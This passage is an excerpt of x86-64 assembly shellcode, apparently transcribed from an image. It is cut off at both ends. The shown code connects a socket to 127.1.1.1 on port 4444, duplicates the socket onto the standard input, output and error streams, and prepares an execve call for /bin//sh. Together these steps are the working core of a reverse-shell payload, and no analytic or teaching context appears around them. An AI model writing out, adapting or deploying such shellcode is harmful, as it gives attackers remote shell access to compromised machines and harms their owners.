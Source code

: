 ```term
        pop bp

	push rdx

	mov dword [rsp-4], 0x0101017f
	mov word [rsp-6], 0x5c11
	mov word [rsp-8], bp
	sub rsp, 8

	; connect(sock, (struct sockaddr *)&server, sockaddr_len)

	mov al, 42
	mov rsi, rsp
	mov dl, 16
	syscall


        ; duplicate sockets

        ; dup2 (new, old)

	mov al, 33

        xor rsi, rsi

        syscall

        mov al, 33

        inc rsi

        syscall

        mov al, 33

        inc rsi

        syscall


        ; execve

        ; First NULL push

        xor rax, rax
        push rax

        ; push /bin//sh in reverse

        mov rbx, 0x68732f2f6e69622f
        push rbx

        ; store /bin//sh address in RDI

        mov rdi, rsp

        ; Second NULL push
        push rax

        ; set RDX
        mov rdx, rsp


```